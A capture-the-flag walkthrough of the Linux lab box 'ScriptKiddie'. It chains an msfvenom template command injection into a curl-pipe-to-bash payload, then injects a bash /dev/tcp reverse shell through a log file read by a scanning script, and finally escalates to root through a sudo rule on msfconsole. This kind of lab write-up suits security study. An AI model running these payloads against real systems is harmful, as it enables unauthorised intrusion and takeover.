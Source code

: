 # ScriptKiddie
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can see the box is running ubuntu and is exposing only two ports: 22, 5000. So, now let's dig into port 5000.  
As we hit the webserver we can see a form with a 'k1dd13' toolset. From this page we can, for example do an nmap, do msfvenom or do a searchsploit.  
If we try to fuzz this form we can see that some form of filtering is already enabled:  
![](Attachments/Pasted%20image%2020220606144629.png)
If we do a searchsploit (on our local machine) we can see the following available exploit for msfvenom:  
```bash
[root@kali ScriptKiddie ]$ searchsploit msfvenom                                                                       
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path                           
------------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection                | multiple/local/49491.py         
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results   
```
Now, leveraging the msfvenom form, we can try to build an evil template file and execute code against the server.
![](Attachments/Pasted%20image%2020220606144722.png)

## Foothold
At first we can try to execute a simple ping command to see if code execution happens, if so we can then build a more complex paiload to gain a shell on this box.  
let's set the payload varuable to the following value:  
```python
# Change me
# payload = 'echo "Code execution as $(id)" > /tmp/win'    
payload = 'ping -c1 10.10.14.11'
```
now we can set a `tcpdump` listener on `tun0` interface and see if we get an icmp echo request.  
```bash
[root@kali ScriptKiddie ]$ tcpdump -nettti tun0 icmp                                                                  
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode                                             
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes                                               
 00:00:00.000000 ip: 10.10.10.226 > 10.10.14.11: ICMP echo request, id 2, seq 1, length 64                            
 00:00:00.000031 ip: 10.10.14.11 > 10.10.10.226: ICMP echo reply, id 2, seq 1, length 64                  
```
Since we successfully obtained code execution, now we can create a payload to gain shell access to this target.  
Since the python exploit doesn't like some characters contained in the common bash reverse tcp shell, we can host the shell using python and then curl the shell file and pipe it over to bash:  
``` python
# Change me
# payload = 'echo "Code execution as $(id)" > /tmp/win'
# payload = 'ping -c1 10.10.14.11'
payload = "curl http://10.10.14.11/shell.sh | bash "
```
Once we upload our template file we can se a hit on the webserver for `/shell.sh` and then, after few seconds, on our listener we can see popping a shell as user kid:  
```bash
root@kali:~/Documents/HTB/Boxes/ScriptKiddie/exploits# nc -lvnp 9001                                                  
listening on [any] 9001 ...                                
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.226] 34862                                                          
bash: cannot set terminal process group (851): Inappropriate ioctl for device                                         
bash: no job control in this shell                         
kid@scriptkiddie:~/html$                                   
kid@scriptkiddie:~/html$ id
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)                             
```

## User
Once we log in, poking around on user's home folder, we can notice a log file that is owned by `kid:pwn` :
```bash
kid@scriptkiddie:~/logs$ ls -la                            
total 8                                                    
drwxrwxrwx  2 kid kid 4096 Feb  3  2021 .                  
drwxr-xr-x 11 kid kid 4096 Feb  3  2021 ..                 
-rw-rw-r--  1 kid pwn    0 Jun  5 14:28 hackers  
```
If we check how this file is generated 
```bash
kid@scriptkiddie:~$ grep -ri hackers *                     
html/app.py:        with open('/home/kid/logs/hackers', 'a') as f:
```
we can see the following code snipped in the python app:  
```python
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")
```
So it seems that this file is populated when someone tries to insert malicious input. In fact we can see here that the application is throwing the same error that got us during the initial enumeration phase.  
Now, if we try again to insert a input that matches the regex in the searchsploit web form, we can see the following log line added to the file:  
```bash
kid@scriptkiddie:~/html$ tail -f ../logs/hackers
[2022-06-06 08:27:49.838720] 10.10.14.11
tail: ../logs/hackers: file truncated
```
As we can notice, the file gets truncated, so we can assume that some process is consuming the contents of this file.  
If we repeat the same process with `pspy64` opened, we can see that the following script is executed:  
```bash
2022/06/06 08:32:52 CMD: UID=1001 PID=32261  | /bin/bash /home/pwn/scanlosers.sh
  2022/06/06 08:32:52 CMD: UID=1001 PID=32260  | sh -c nmap --top-ports 10 -oN recon/10.10.14.11.nmap 10.10.14.11 2>&1 >/dev/null
  2022/06/06 08:32:52 CMD: UID=1001 PID=32262  | nmap --top-ports 10 -oN recon/10.10.14.11.nmap 10.10.14.11
  2022/06/06 08:32:52 CMD: UID=1001 PID=32264  | /usr/sbin/incrond
  2022/06/06 08:32:52 CMD: UID=1001 PID=32268  | /bin/bash /home/pwn/scanlosers.sh
  2022/06/06 08:32:52 CMD: UID=1001 PID=32267  | sort -u
  2022/06/06 08:32:52 CMD: UID=1001 PID=32266  | cut -d  -f3-
  2022/06/06 08:32:53 CMD: UID=1001 PID=32271  | /bin/bash -c sed -i 's/open  /closed/g' "/home/pwn/recon/10.10.14.11.nmap"
  2022/06/06 08:32:53 CMD: UID=0    PID=32272  | /usr/sbin/incrond
```
We can see a process triggered by `incrond` , incrond is a daemon which monitors filesystem events and executes commands defined in system and user tables. Now, if we cat the scanlosers.sh file we can see the following content:  
```bash
kid@scriptkiddie:/dev/shm$ cat /home/pwn/scanlosers.sh
  #!/bin/bash

  log=/home/kid/logs/hackers

  cd /home/pwn/
  cat $log | cut -d' ' -f3- | sort -u | while read ip; do
      sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
  done

  if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
Now, as we can see the application is executing `nmap` against the ip found in the log file.  
As we can notice, the cut function uses as argument `-f3-` which basically means cut from the third item till the end of the line.  
Now, since we can write the log file, because we are the owners, we can inject the following payload int the log file:  
```bash
kid@scriptkiddie:~/logs$ echo "[2022-06-06 09:08:18.512966] 10.10.14.11; bash -c 'bash -i >& /dev/tcp/10.10.14.11/9002 0>&1'; #"
```
and as we can notice, we get a shell as user `pwn`
```
[root@kali ScriptKiddie ]$ bash                            
root@kali:~/Documents/HTB/Boxes/ScriptKiddie# nc -lvnp 9002                           
listening on [any] 9002 ...                                
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.226] 46644                                                          
bash: cannot set terminal process group (864): Inappropriate ioctl for device                                         
bash: no job control in this shell                         
pwn@scriptkiddie:~$ 
```
## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice the following sudo capability for user pwn:  
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                     
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                           
Matching Defaults entries for pwn on scriptkiddie:                                                                    
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:                                                              
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole   
```
Now, as we already know, we can leverage this by running msfconsole command and execute a shell:  
```
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: When in a module, use back to go back to the top level prompt

msf6 > bash
[*] exec: bash

root@scriptkiddie:/home/pwn# ls
recon  scanlosers.sh
root@scriptkiddie:/home/pwn# whoami
root
```
And we gained a shell as root
